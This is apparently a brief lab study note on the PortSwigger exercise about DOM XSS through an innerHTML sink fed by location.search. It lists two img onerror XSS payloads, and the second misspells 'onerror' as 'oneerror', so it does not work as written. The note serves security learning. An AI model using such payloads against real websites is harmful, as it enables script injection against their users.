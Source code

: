 **DOM XSS in innerHTML sink using source location.search**
Sink refer method of function that causes malicious js to be performed on the page
Script tag wont work with innerHTML 

```
<img/src/onerror=alert(1)>
```

From <https://portswigger.net/web-security/cross-site-scripting/cheat-sheet> 

You can also use the payload 
```
<img src='0' oneerror='alert()'>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/baa1e158-bad4-417c-9449-09342b18b2e8)


